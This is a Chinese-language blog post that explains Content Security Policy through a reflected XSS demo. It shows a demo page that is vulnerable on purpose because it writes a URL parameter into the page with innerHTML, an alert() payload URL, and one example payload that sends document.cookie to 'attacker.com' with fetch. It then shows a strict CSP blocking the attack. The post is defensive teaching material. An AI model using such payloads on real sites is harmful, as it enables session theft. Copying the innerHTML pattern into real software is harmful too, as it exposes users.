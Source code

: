 ```yaml
---
title: CSP标头是什么？为什么有人能神不知鬼不觉地盗走你的信息？
published: 2025-07-31
description: 'CSP是内容安全策略，它可以防止攻击者向您的网站恶意注入脚本以盗走用户信息'
image: 'https://eo-r2.2x.nz/myblog/img/e245d917-2255-4d2d-85fb-aa7538a18022.webp'
tags: [XSS攻击, CSP]
category: '记录'
draft: false 
lang: ''
---
```


# 举个例子吧！

这是一个无CSP标头的网站： [点我](https://none-csp-demo.pages.dev/nocsp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E)

不出意外，你的浏览器会弹出一个提示

![](../assets/images/b279f283-b5d2-4dbd-955e-5b3bba6ff656.webp)

# 这是如何做到的？

这个项目开源在 [afoim/none_csp_demo](https://github.com/afoim/none_csp_demo)

HTML内容为

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>欢迎页面</title>
</head>
<body>
  <h1>欢迎</h1>
  <p>你好，<span id="name"></span>！</p>

  <script>
    // 从 URL 参数读取用户名并显示
    const params = new URLSearchParams(location.search);
    const name = params.get("name");
    document.getElementById("name").innerHTML = name;
  </script>
</body>
</html>
```

这个网站非常简单，网页通过查询符 `?name=xxx` 来动态显示用户名

比如你输入 https://none-csp-demo.pages.dev/nocsp?name=AcoFork 网页就会显示

![](../assets/images/366d0934-9c3a-4196-a7ae-1c230c916daf.webp)

而根据源码 网页是通过 `innerHTML` 直接进行文本插入的

这种方式没有任何的安全审查，会将传入的内容直接拼接到HTML中

那么...如果我们给网站这样一个 `name` 呢？

尝试输入 

https://none-csp-demo.pages.dev/nocsp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E

你会发现网站并没有打印出任何用户名，而且浏览器还弹出了一个奇怪的窗口

![](../assets/images/e86cfeed-a9d4-402b-aed0-fc3624f3e925.webp)

我们F12查看当前网页的源代码

![](../assets/images/ad38bc52-e689-4923-b79c-894dc9ab4136.webp)

发现在 `<span id="name"></span>` 中

被插入了一条 `<img src="x" onerror="alert('XSS攻击成功')">` ！

也就是说，网页把我们传入的 `name` 并没有解析为纯文本

而是暴力的直接插入了HTML

导致浏览器并没有渲染出来  `你好，<img src="x" onerror="alert('XSS攻击成功')"> ！` 

而是直接将 `<img src="x" onerror="alert('XSS攻击成功')">` 作为HTML去执行了！

由于 `src=x` 必定无法获取，又因为设置了 `onerror` 这个回退源

导致浏览器直接执行了 `alert('XSS攻击成功')` 这个脚本！

# 有什么危害？

举一反三，既然我们能让浏览器弹出一个提示框

那也就能做到其他事情

攻击者完全可以伪造一条URL，然后发给你，比如**获取你的浏览器Cookie然后通过Fetch发送到指定的服务器**！！！
`https://victim-site.com/page?name=<img src=x onerror="fetch('https://attacker.com/log?cookie='+document.cookie)">`

# 如何设置CSP以避免这类攻击？

尝试访问这个URL，该URL设置了严格的CSP策略

https://none-csp-demo.pages.dev/csp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E

你会发现并未弹出提示框，并且F12控制台出现报错

![](../assets/images/2febeecf-6f54-4c6a-b775-ef2ac8598f37.webp)

**以下是GPT给出的翻译和解释**

**翻译：**

> 拒绝执行内联脚本，因为它违反了以下 CSP 指令：`script-src 'self'`。要允许执行内联脚本，必须使用 `'unsafe-inline'` 关键字、指定哈希值（例如 `'sha256-raHeKmhSLYgI2dPMTS+XHraijHkbV3RTs8np6RhiKqQ='`），或使用随机数（例如 `'nonce-...'`）。

**解释：**  
你的 CSP 策略里规定只能加载本域（`'self'`）的脚本，但是你在 HTML 页面中写了 `<script>...</script>` 这样的**内联脚本**（inline script）。这被当前 CSP 限制了，无法执行。

这样我们就成功避免了XSS攻击

在HTML head中添加以下内容即可

```html
  <!-- 安全的 CSP 策略 -->
  <meta http-equiv="Content-Security-Policy" content="
    default-src 'self';
    script-src 'self';
    object-src 'none';
    frame-ancestors 'none';
    base-uri 'self';
  ">
```

# 如何保证我的数据安全？

1. 如果你正在运营站点，**请确保各个站点设置了严格的CSP策略**。这样，即使有攻击者想要XSS注入，也会被CSP策略拦截

2. **不要随意点击来历不明的链接或扫描来历不明的二维码**。对于短链接、混淆后的链接，首先先解析出最终链接，评估风险后再访问。或者使用无痕模式访问。也许目标网站并没有严格的CSP策略，这可能会导致你的个人数据泄露
